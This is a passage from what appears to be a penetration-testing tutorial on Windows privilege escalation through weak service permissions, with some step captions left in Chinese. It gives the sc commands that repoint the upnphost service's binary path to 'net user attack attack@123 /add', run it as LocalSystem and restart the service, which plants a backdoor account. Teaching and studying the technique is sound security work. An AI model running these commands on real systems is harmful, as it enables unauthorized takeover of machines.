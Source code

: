 2.  Once we know that there are two services with access rights to all the users, we will check the service configuration. Enter the following command in the command prompt:

    ```
    sc qc upnphost

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_09_017.jpg)

3.  We will now change the binary path of the service, since the application has given all access. Keep a copy of the service configuration in case we need to revert it back to the original state. Now enter the following command in the terminal:

    ```
    sc config upnphost binpath= "net user attack attack@123 /add"
          sc config upnphost obj= ".\LocalSystem" password= ""

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_09_018.jpg)

4.  We see that our commands have executed successfully. Now let us verify and restart the service by issuing the following command:

    ```
    sc qc upnphost
          net start upnphost

    ```

    输出将如以下屏幕截图所示：
